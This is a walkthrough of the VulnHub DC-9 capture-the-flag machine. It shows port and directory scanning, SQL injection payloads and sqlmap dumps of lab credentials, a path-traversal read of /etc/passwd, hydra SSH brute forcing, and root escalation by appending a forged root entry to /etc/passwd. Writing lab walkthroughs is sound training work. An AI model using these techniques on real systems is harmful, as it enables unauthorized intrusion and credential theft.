



# DC9

[VulnHub Link](https://www.vulnhub.com/entry/dc-9,412/)

## Port Scanning

We start with a simple nmap scan:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2b3387432740bc516dc13decb9b8ac3 (RSA)
|   256 065c93871554686b889155cff89ace40 (ECDSA)
|_  256 e42c88da8863268c93d5f7632ba3ebab (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Example.com - Staff Details - Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that only 2 ports are open:

* Port 22: simple ssh
* Port 80 Apache web server

### Other info

* The machine is running Debian

## Web Scanning

### Website Enumeration

<figure><figcaption></figcaption></figure>

At first we can see that the web server is running with PHP. On the "Display All Records" we notice a bunch of records of the employees (it looks like it got printed from a database, could it be MySql?).

```
ID: 1
Name: Mary Moe
Position: CEO
Phone No: 46478415155456
Email: marym@example.com

ID: 2
Name: Julie Dooley
Position: Human Resources
Phone No: 46457131654
Email: julied@example.com
...
```

In the "Search" tab there's a search bar and on the "Manage" tab we can view a login page (SQLi?).

## More Active Recon

We can start by running gobuster for searching hidden directories and check for manual SQLi at the same time.

On the "search" tab we found something interesting: i we search for `mary' or '1'='1` all of the records will be displayed, i tried the same payload on the "Manage" tab but with no luck.

Furthermore I was enumerating with gobuster and I tried some interesting directories:

```
kali@kali:~/oscp-prep/vulnhub/DC9$ gobuster dir -u 192.168.40.135 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.40.135
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
2022/11/30 18:37:13 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/index.php            (Status: 200) [Size: 917]
/search.php           (Status: 200) [Size: 1091]
/welcome.php          (Status: 302) [Size: 0] [--> manage.php]
/results.php          (Status: 200) [Size: 1056]
/display.php          (Status: 200) [Size: 2961]
/css                  (Status: 301) [Size: 314] [--> http://192.168.40.135/css/]
/includes             (Status: 301) [Size: 319] [--> http://192.168.40.135/includes/]
/logout.php           (Status: 302) [Size: 0] [--> manage.php]
/config.php           (Status: 200) [Size: 0]
/manage.php           (Status: 200) [Size: 1210]
/session.php          (Status: 302) [Size: 0] [--> manage.php]
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
Progress: 881808 / 882244 (99.95%)===============================================================
2022/11/30 18:40:58 Finished
```

I tried "/config.php" with no luck but when i tried "/session.php" something magically happened, the server redirected me to the "manage.php" tab and shown to me a "You are already logged in as admin." text, but unfortunately its not what I thought because we couldn't manage anything. I've tried to catch the request where the SQL was injectable, tried to feed SQLmap and it worked! We now have all the Database!

```
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+

```

```
Database: Staff
Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```

As we have the hashed password we cracked them with crackstation:

<figure><figcaption></figcaption></figure>

This way I retrieved the hashed password, to crack it I used crackstation which is an online tool that cracks the most common types of hashes. The credentials that I've got from the hash is admin:transorbital1. After a good looking and nothing much I observed a strange string at the end of the manager account "File does not exist". \[later i discovered that the part of the SQLi was skippable just going trough the "/session.php" file :| ]

After a few tries i have noticed that because it's a PHP-based webserver and a server request a file we can just exploit it with `/manage.php?file=../../../../../../../etc/passwd` After a while i found nothing with LFI so i started bruteforcing ssh with the passwords (from the sql dump) and usernames (from both sql and /etc/passwd) using hydra:

```
kali@kali:~/oscp-prep/vulnhub/DC9$ hydra ssh://192.168.40.135 -L usernames.txt -P passwords.txt 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-01 12:57:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 324 login tries (l:18/p:18), ~21 tries per task
[DATA] attacking ssh://192.168.40.135:22/
[22][ssh] host: 192.168.40.135   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.40.135   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.40.135   login: janitor   password: Ilovepeepee
...
```

Now we have a bunch of credentials-combo for ssh!

## Internal Enumaration and Privilege Escalation

The first thing we do is enumeration: we log with every account and search for everything useful. The fist thing I've done is to enumerate the files in the exact home directory. the thing that catched my interesting was a file called "passwords-found-on-post-it-notes.txt" in the ".secrets-for-putin" directory on the janitor account, we can retry hydra's bruteforcing but with these credentials. Thanks to this notes we now have a new account to enumerate:

```
...
[22][ssh] host: 192.168.40.135   login: fredf   password: B4-Tru3-001
...
```

The user "fredf" can impersonate root to run this file:

```
fredf@dc-9:~$ sudo -l
Matching Defaults entries for fredf on dc-9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fredf may run the following commands on dc-9:
    (root) NOPASSWD: /opt/devstuff/dist/test/test
```

Time to get more information about it.

### File information

The file is an elf executable:

```
fredf@dc-9:~$ file /opt/devstuff/dist/test/test
/opt/devstuff/dist/test/test: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=28ba79c778f7402713aec6af319ee0fbaf3a8014, stripped
```

This binary simply takes a file and append the content in another file:

<figure><figcaption></figcaption></figure>

So the privesc is straight forward: we can just append our personalized root user to "/etc/passwd" or "/etc/shadow".

1. copy the root line from "/etc/passwd" and change the name: `newroot:x:0:0:root:/root:/bin/bash`
2. generate a new password with openssl: `openssl passwd password321` `$1$8S09HGZM$h1YN5vVHXZyBLZnahTHXr0`
3. replace the "x" with the hash: `newroot:$1$8S09HGZM$h1YN5vVHXZyBLZnahTHXr0:0:0:root:/root:/bin/bash`
4. put our new string in a file and run the binary on "/etc/passwd": `fredf@dc-9:~$ sudo /opt/devstuff/dist/test/test hash /etc/passwd`

We've done it! Now we just need to "su" to our new user and we got root privilege! `uid=0(root) gid=0(root) groups=0(root)`

## That's was a really cool box and thanks for the reading.

## Hope to see you soon!

_Pedio Zaki_
